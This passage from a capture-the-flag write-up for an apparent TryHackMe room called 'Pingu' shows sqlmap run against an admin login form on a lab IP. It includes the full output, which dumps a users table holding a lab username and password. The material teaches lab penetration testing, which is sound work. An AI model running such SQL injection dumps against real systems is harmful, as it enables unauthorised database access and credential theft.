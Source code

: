 ### SQLmap

The admin page seems to give us a login form. In situations like this it is always worth it to check for "low-hanging fruit". In the case of login forms one of the first things to check for is SQL Injection.

Recommended Tool: [SQLmap](../../3%20-%20Tags/Hacking%20Tools/SQLmap.md)

Useful Flags:

|   |   |
|---|---|
|-u|Specifies which url to attack|
|--forms|Automatically selects parameters from <form> elements on the page|
|--dump|Used to retrieve data from the db once SQLI is found|
|-a|Grabs just about everything from the db|
Let's do it :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Pingu]
└─$ sqlmap -u http://10.10.110.207/administrator.php --forms --dump

do you want to exploit this SQL injection? [Y/n] Y
[21:48:25] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[21:48:25] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[21:48:25] [INFO] fetching current database
[21:48:25] [INFO] retrieved: 'users'
[21:48:25] [INFO] fetching tables for database: 'users'
[21:48:25] [INFO] retrieved: 'users'
[21:48:25] [INFO] fetching columns for table 'users' in database 'users'
[21:48:26] [INFO] retrieved: 'username'
[21:48:26] [INFO] retrieved: 'varchar(100)'
[21:48:27] [INFO] retrieved: 'password'
[21:48:27] [INFO] retrieved: 'varchar(100)'
[21:48:27] [INFO] fetching entries for table 'users' in database 'users'
[21:48:27] [INFO] retrieved: 'secretpass'
[21:48:27] [INFO] retrieved: 'pingudad'
Database: users
Table: users
[1 entry]
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+

[21:48:27] [INFO] table 'users.users' dumped to CSV file '/home/mdn0x/.local/share/sqlmap/output/10.10.110.207/dump/users/users.csv'
[21:48:27] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/mdn0x/.local/share/sqlmap/output/results-07222025_0948pm.csv'                                                                                                                                        

[*] ending @ 21:48:27 /2025-07-22/
```
